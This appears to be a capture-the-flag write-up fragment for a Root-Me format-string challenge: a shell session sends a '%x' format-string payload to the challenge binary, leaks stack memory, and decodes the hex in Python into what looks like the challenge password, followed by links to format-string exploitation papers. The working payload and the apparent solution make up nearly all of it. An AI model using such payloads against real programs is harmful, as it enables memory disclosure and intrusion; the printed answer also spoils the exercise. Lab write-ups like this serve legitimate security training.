 ```
app-systeme-ch5@challenge02:/tmp/a$ ~/ch5  "ZZZZ%x%x%x%x%x%x%x%x%x%x.[%x%x%x%x%x%x%x]"
ZZZZ20804b160804853d9bffffc2db7e1b589bffffad4b7fc3000b7fc3000804b160.[39617044282936646d617045bf000a64804861b2bffffad4]
app-systeme-ch5@challenge02:/tmp/a$ python
Python 2.7.17 (default, Feb 27 2021, 15:10:58) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "39617044282936646d617045bf000a64804861b2bffffad4".decode("hex")
'9apD()6dmapE\xbf\x00\nd\x80Ha\xb2\xbf\xff\xfa\xd4'
>>> "39617044282936646d617045bf".decode("hex")
'9apD()6dmapE\xbf'
>>> "39617044282936646d617045".decode("hex")
'9apD()6dmapE'
```

--------------------------------------------------------------------------------
[Linux Format string exploitation](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
[Exploiting Format string Vulnerabilities](http://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Format%20Bugs%20-%20Exploiting%20format%20string.pdf)